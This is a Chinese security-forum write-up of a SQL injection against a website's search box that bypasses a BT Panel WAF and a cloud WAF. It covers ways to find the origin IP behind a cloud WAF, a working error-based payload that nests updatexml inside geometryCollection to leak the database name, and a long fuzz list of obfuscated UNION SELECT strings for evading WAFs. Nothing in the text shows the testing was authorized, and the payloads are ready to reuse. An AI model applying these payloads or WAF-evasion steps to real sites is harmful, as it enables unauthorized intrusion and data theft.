



# 奇安信攻防社区-记一次SQL注入绕过宝塔+云waf

### 记一次SQL注入绕过宝塔+云waf

话不多说，上干货

## **0x01 多重waf绕过**

注入点搜索框


单双引号进行测试  
看看是字符型的还是数字型的，发现是字符型


准备上语句发现有宝塔waf+云waf


**0x02 过云waf**

首先看看有无cdn节点


全球ping


发现这两个没有回应真实ip，就去看看用fofa或者hunter来在真实ip，hunter上面显示183是云厂商肯定是云waf，不能用这个ip


之后在看fofa上面能不能找到真实ip

发现这个ip跟历史解析记录是同一个c段的


然后用拦截云waf的语句来试试，发现无云waf显示


**找云waf的几种方式**

`1. 通过全球ping``2. 找历史解析记录``3. 通过fofa或者hunter空间引擎来搜索``4.  通过历史解析记录扫c段`

## **0x03 过宝塔waf**

## **1.报错注入**

首先判断出字符型的话，就得去测试’||||’ ‘or+or’的语句，但是我发现他这里只要是在两个or之间出现东西，就一定会触发宝塔waf


当时试了很多思路，发现可以’;%00方法，还有可以加--+注释符的，但是尝试之后只有--+可以正常回显




其实这里最初的思路根本不是什么’||||’，这里是按照1’||1=1来测试


然后尝试想把1=1，后面这个1能不能换成报错函数之类的，发现直接被拦


所以我猜测这个是不是有可能把mysql所有的报错函数都给拦了一下，尝试其他的报错函数看看

exp


floor


`例如：``Polygon，GeometryCollection，MultiPoint，MultiLineString``我发现这几个都没有过滤，可能就过滤了平常可见的报错函数`


既然这函数可以用，那我们就开始构造语句试试，正常的语句用不了，那我们就玩点不正常的



看看这函数怎么搞的，把里面的语句替换成1，看看哪里出了问题，发包，发现他这个1直接爆出来了


尝试能不能select database()这样，把库名搞出来


发现还是不行  
可能是因为database()后面跟着--没有闭合的原因，加个||’来试试能不能闭合


emmm，还是不行  
既然select database()不行，那就试试再套一层报错函数，看看能不能行

`Pyload：1'||1=geometryCollection(updatexml(1,concat(0x7e,database(),0x7e),1))--+`

发包


哟西，果然能行，出库名了，成功绕过waf

## **2.联合注入**

直接'ordre by xx --+

正常判断出库名，17正常 18报错




然后fuzz union select 函数，尝试太多截图就不放了，直接快进到最后一步

```php
/*!%55NiOn*/ /*!%53eLEct*/ %55nion(%53elect 1,2,3)-- - +union+distinct+select+ +union+distinctROW+select+ /**//*!12345UNION SELECT*//**/ /**//*!50000UNION SELECT*//**/ /**/UNION/**//*!50000SELECT*//**/ /*!50000UniON SeLeCt*/ union /*!50000%53elect*/ +#uNiOn+#sEleCt +#1q%0AuNiOn all#qa%0A#%0AsEleCt /*!%55NiOn*/ /*!%53eLEct*/ /*!u%6eion*/ /*!se%6cect*/ +un/**/ion+se/**/lect uni%0bon+se%0blect %2f**%2funion%2f**%2fselect union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A REVERSE(noinu)+REVERSE(tceles) /*--*/union/*--*/select/*--*/ union (/*!/**/ SeleCT */ 1,2,3) /*!union*/+/*!select*/ union+/*!select*/ /**/union/**/select/**/ /**/uNIon/**/sEleCt/**/ /**//*!union*//**//*!select*//**/ /*!uNIOn*/ /*!SelECt*/ +union+distinct+select+ +union+distinctROW+select+ +UnIOn%0d%0aSeleCt%0d%0a UNION/*&test=1*/SELECT/*&pwn=2*/ un?+un/**/ion+se/**/lect+ +UNunionION+SEselectLECT+ +uni%0bon+se%0blect+ %252f%252a*/union%252f%252a /select%252f%252a*/ /%2A%2A/union/%2A%2A/select/%2A%2A/ %2f**%2funion%2f**%2fselect%2f**%2f union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A /*!UnIoN*/SeLecT+  %55nion(%53elect)   union%20distinct%20select   union%20%64istinctRO%57%20select   union%2053elect   %23?%0auion%20?%23?%0aselect   %23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect   %55nion %53eLEct   u%6eion se%6cect   unio%6e %73elect   unio%6e%20%64istinc%74%20%73elect   uni%6fn distinct%52OW s%65lect
```

Pyload：

`union+distinctROW+select`


开始构造，pyload如图，发包


成功绕过
